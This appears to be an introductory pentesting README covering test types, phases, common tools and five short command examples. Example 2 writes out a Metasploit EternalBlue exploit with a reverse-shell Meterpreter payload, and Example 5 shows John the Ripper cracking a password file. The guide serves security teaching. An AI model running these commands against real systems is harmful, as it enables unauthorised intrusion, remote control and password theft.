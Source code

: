 # Pentesting

## What is Pentesting?

Pentesting, or penetration testing, is a simulated cyberattack against a computer system, network, or web application to identify vulnerabilities that an attacker could exploit. The goal is to find and fix security weaknesses before they can be exploited by malicious actors.

## Types of Pentesting

1. **Black Box Testing**: The tester has no prior knowledge of the system and tests it as an external attacker would.
2. **White Box Testing**: The tester has full knowledge of the system, including source code and architecture, and tests it from an internal perspective.
3. **Gray Box Testing**: The tester has partial knowledge of the system, combining elements of both black box and white box testing.

## Phases of Pentesting

1. **Planning and Reconnaissance**: Define the scope and goals of the test, gather intelligence about the target, and identify potential entry points.
2. **Scanning**: Use tools to identify open ports, services, and vulnerabilities in the target system.
3. **Gaining Access**: Exploit vulnerabilities to gain access to the target system.
4. **Maintaining Access**: Establish a persistent presence on the target system to simulate advanced threats.
5. **Analysis and Reporting**: Document the findings, including vulnerabilities discovered, exploits used, and recommendations for remediation.

## Common Tools Used in Pentesting

- **Nmap**: Network scanner for discovering hosts and services.
- **Metasploit**: Framework for developing and executing exploit code.
- **Burp Suite**: Web vulnerability scanner and testing tool.
- **Wireshark**: Network protocol analyzer for capturing and analyzing network traffic.
- **John the Ripper**: Password cracking tool.

## Benefits of Pentesting

- **Identify Security Weaknesses**: Discover vulnerabilities before attackers can exploit them.
- **Improve Security Posture**: Implement fixes and improve defenses based on test results.
- **Compliance**: Meet regulatory requirements and industry standards for security testing.
- **Risk Management**: Understand and mitigate potential risks to the organization.

## Conclusion

Pentesting is a critical component of a comprehensive security strategy. By simulating real-world attacks, organizations can identify and address vulnerabilities, improve their security posture, and protect their assets from potential threats.

## Examples of Pentesting

### Example 1: Scanning for Open Ports with Nmap
Nmap is a popular tool used in pentesting to discover hosts and services on a network.

```sh
nmap -sS -p 1-65535 192.168.1.1
```
This command performs a TCP SYN scan on all ports (1-65535) of the target IP address `192.168.1.1`.

### Example 2: Exploiting a Vulnerability with Metasploit
Metasploit is a framework for developing and executing exploit code against a remote target machine.

```sh
msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set RHOST 192.168.1.1
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.1.2
exploit
```
This sequence of commands launches Metasploit, selects the EternalBlue exploit, sets the target and payload options, and executes the exploit.

### Example 3: Intercepting HTTP Traffic with Burp Suite
Burp Suite is a web vulnerability scanner and testing tool.

1. Configure your browser to use Burp Suite as a proxy.
2. Open Burp Suite and start the proxy listener.
3. Visit the target web application in your browser.
4. Use Burp Suite to intercept and analyze HTTP requests and responses.

### Example 4: Capturing Network Traffic with Wireshark
Wireshark is a network protocol analyzer used to capture and analyze network traffic.

1. Open Wireshark and select the network interface to capture traffic.
2. Start the capture.
3. Filter the captured traffic to focus on specific protocols or IP addresses.
4. Analyze the captured packets to identify potential security issues.

### Example 5: Cracking Passwords with John the Ripper
John the Ripper is a password cracking tool.

```sh
john --wordlist=/path/to/wordlist.txt /path/to/password/file
```
This command uses a wordlist to attempt to crack the passwords in the specified password file.